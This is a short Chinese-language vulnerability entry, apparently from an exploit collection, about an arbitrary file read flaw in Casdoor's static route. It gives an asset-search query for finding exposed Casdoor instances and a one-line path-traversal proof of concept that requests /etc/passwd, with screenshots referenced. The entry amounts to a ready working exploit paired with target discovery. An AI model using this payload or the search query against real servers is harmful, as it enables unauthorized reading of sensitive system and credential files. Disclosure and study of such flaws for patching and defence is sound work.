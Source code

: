 # Casdoor static 任意文件读取漏洞

# Casbin casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor 是 Casbin 开源社区推出的基于 OAuth 2.0 / OIDC 的中心化的单点登录（SSO）身份验证平台。

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件。

## 漏洞影响

```
Casdoor
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登陆页面

![image-20231115094403952](images/image-20231115094403952.png)

或者

![image-20231115094555640](images/image-20231115094555640.png)

poc

```
/static/../../../../../../../../../../../etc/passwd
```

![image-20231115094237497](images/image-20231115094237497.png)

